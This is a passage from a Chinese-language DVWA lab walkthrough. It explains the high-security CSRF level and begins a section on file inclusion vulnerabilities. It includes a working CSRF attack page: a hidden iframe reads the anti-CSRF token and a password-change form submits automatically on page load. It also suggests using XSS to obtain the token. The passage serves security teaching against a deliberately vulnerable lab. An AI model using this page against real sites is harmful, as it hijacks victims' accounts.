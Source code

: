 
### high  

加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器都会返回一个随机的token，当浏览器向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。  

http://localhost/vulnerabilities/csrf/?password_new=12&password_conf=12&Change=Change&user_token=14299b179fba1e1934cc198a1a884bdc#  

```php  
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );  
```

这里想要达到攻击目的的话需要获取token。这里只有构造一个攻击页面，将其放置在目标服务器，引诱受害者访问，从而完成CSRF攻击。  

```jsx  
<script type="text/javascript">  
    function attack()  
  {  
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;  
  document.getElementById("transfer").submit();   
  }  
</script>  
   
<iframe src="<http://192.168.109.136/dvwa/vulnerabilities/csrf>" id="hack" border="0" style="display:none;">  
</iframe>  
   
<body onload="attack()">  
  <form method="GET" id="transfer" action="<http://localhost/vulnerabilities/csrf>">  
   <input type="hidden" name="password_new" value="password">  
    <input type="hidden" name="password_conf" value="password">  
   <input type="hidden" name="user_token" value="">  
  <input type="hidden" name="Change" value="Change">  
   </form>  
</body>  
```

如果把上述页面加入到目标服务器，当受害者点击这个页面，脚本会通过一个看不见的框架访问修改密码的页面获取页面中的token，并向服务器发送修改密码的请求，以完成CSFR攻击。  

因为跨域问题，所以这个攻击代码需要注入到目标服务器中才可能完成攻击，可以利用XSS漏洞协助获取CSRF token。  

## 文件包含  

### **文件包含与漏洞**  

文件包含:  

开发人员将相同的函数写入单独的文件中,需要使用某个函数时直接调用此文件,无需再次编写,这种文件调用的过程称文件包含。  

文件包含漏洞:  

开发人员为了使代码更灵活,会将被包含的文件设置为变量,用来进行动态调用,从而导致客户端可以恶意调用一个恶意文件,造成文件包含漏洞。  

### **文件包含漏洞用到的函数**  
